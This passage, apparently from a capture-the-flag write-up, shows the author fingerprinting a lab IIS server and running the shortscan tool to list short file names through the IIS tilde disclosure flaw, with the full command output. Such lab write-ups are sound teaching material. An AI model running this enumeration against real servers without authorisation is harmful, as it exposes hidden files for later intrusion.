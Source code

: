 I immediately think of IIS shorthand vulnerabilities, and I decided to check Wappalyzer to confirm my suspicions.

![wappalyzer.png](images/24-secedu/wappalyzer.png)

Bang! I won't go into to too much detail over the functionality of the exploit ([you can read more here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#microsoft-iis-tilde-character-vulnerability-feature-short-file-folder-name-disclosure)) but it essentially allows enumeration of files in folders on a IIS webserver, it leaks the first **6** characters of the filename and first **3** of the extension.

I use [shortscan](https://github.com/bitquark/shortscan) to get the job done:
```bash
$ shortscan "http://win.secedu.site"                                                                                                                  127 ↵
🌀 Shortscan v0.9.0 · an IIS short filename enumeration tool by bitquark

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
GIT~1.TXT            GIT.TXT?   
ANNOUN~1             ANNOUN?             ANNOUNCEMENTS
WELLDO~1.TXT         WELLDO?.TXT? 
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
COMPRE~1             COMPRE?             COMPRESSED
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/COMPRESSED/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
OTHERF~1.TXT         OTHERF?.TXT? 
VERYSE~1.TXT         VERYSE?.TXT? 
════════════════════════════════════════════════════════════════════════════════

Finished! Requests: 744; Retries: 0; Sent 153260 bytes; Received 308687 bytes
```
Ok! So some new entries:
- `WELLDO~1.TXT` in the site's root
- `OTHERF~1.TXT` and `VERYSE~1.TXT` in the `compressed` folder
